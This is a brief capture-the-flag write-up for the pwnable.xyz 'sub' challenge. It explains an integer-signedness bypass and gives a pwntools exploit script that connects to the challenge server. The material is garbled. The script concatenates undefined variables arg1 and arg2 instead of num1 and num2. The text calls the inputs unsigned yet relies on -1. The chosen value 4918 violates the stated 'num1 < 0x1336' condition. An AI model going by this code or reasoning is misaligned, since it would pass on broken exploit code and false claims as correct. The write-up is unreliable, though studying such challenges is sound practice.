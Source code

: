 This challenge takes 2 **unsigned integers** as input and checks:
`num1 < 0x1336` && `num2 < 0x1336` and in order to execute `"cat flag"`: `num1 - num2 == 0x1337`.
That means we can use a negative number so that `"-"` - `"-"` = `"+"`.  
Convert hex to decimal and numbers 4918 and -1 give us the result we want. 

## Exploit
```python
#!/usr/bin/python3
from pwn import *

ip = 'svc.pwnable.xyz'
port = 30001
filename = './sub' # change this

def pwn():
	
	r = remote(ip, port)
	num1 = b'4918'
	num2 = b' -1'
	payload = arg1 + arg2
	r.sendlineafter(':', payload)
	print(r.recvall().decode('utf8'))

pwn()
```
